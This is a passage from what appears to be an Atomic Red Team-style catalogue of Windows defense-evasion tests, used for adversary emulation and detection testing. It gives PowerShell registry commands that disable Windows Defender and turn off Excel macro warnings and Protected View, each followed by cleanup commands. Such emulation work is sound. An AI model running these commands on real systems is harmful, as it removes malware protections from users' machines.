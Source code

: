 **Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

#### Cleanup Commands:

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 0
```

<br/>
<br/>

## Atomic Test #19 - Disable Microft Office Security Features

Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will
not
show any warning before editing the document

https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings"
Remove-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
```

<br/>
<br/>
